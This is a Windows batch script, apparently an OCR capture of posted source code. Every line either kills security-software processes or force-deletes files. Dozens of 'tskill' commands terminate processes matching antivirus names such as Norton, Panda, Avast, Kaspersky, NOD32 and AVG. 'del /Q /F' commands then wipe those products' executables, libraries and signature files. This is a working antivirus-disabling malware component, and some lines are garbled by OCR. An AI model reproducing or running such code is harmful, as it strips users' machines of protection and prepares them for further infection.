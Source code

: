 tskill /A loge*
tskill /A nisum*
tskill /A issvc
tskill /A tmp*
cls
tskill /A tmn*
tskill /A pcc*
tskill /A cpd*
tskill /A pop*
tskill /A pav*
tskill /A padmincls
tskill /A panda*
tskill /A avsch*
tskill /A sche*
tskill /A syman*
tskill /A virus*
tskill /A realm*cls
tskill /A sweep*
tskill /A scan*
tskill /A ad-*
tskill /A safe*
tskill /A avas*
tskill /A norm*
cls
tskill /A offg*
del /Q /F C:\Program Files\alwils~1\avast4\*.*
del /Q /F C:\Program Files\Lavasoft\Ad-awa~1\*.exe
del /Q /F C:\Program Files\kasper~1\*.exe
cls
del /Q /F C:\Program Files\trojan~1\*.exe
del /Q /F C:\Program Files\f-prot95\*.dll
del /Q /F C:\Program Files\tbav\*.datcls
del /Q /F C:\Program Files\avpersonal\*.vdf
del /Q /F C:\Program Files\Norton~1\*.cnt
del /Q /F C:\Program Files\Mcafee\*.*
cls
del /Q /F C:\Program Files\Norton~1\Norton~1\Norton~3\*.*
del /Q /F C:\Program Files\Norton~1\Norton~1\speedd~1\*.*
del /Q /F C:\Program Files\Norton~1\Norton~1\*.*
del /Q /F C:\Program Files\Norton~1\*.*
cls
del /Q /F C:\Program Files\avgamsr\*.exe
del /Q /F C:\Program Files\avgamsvr\*.exe
del /Q /F C:\Program Files\avgemc\*.exe
cls
del /Q /F C:\Program Files\avgcc\*.exe
del /Q /F C:\Program Files\avgupsvc\*.exe
del /Q /F C:\Program Files\grisoft
del /Q /F C:\Program Files\nood32krn\*.exe
del /Q /F C:\Program Files\nood32\*.exe
cls
del /Q /F C:\Program Files\nod32
del /Q /F C:\Program Files\nood32
del /Q /F C:\Program Files\kav\*.exe
del /Q /F C:\Program Files\kavmm\*.exe
del /Q /F C:\Program Files\kaspersky\*.*
cls
del /Q /F C:\Program Files\ewidoctrl\*.exe
del /Q /F C:\Program Files\guard\*.exe
del /Q /F C:\Program Files\ewido\*.exe
cls
del /Q /F C:\Program Files\pavprsrv\*.exe
del /Q /F C:\Program Files\pavprot\*.exe
del /Q /F C:\Program Files\avengine\*.exe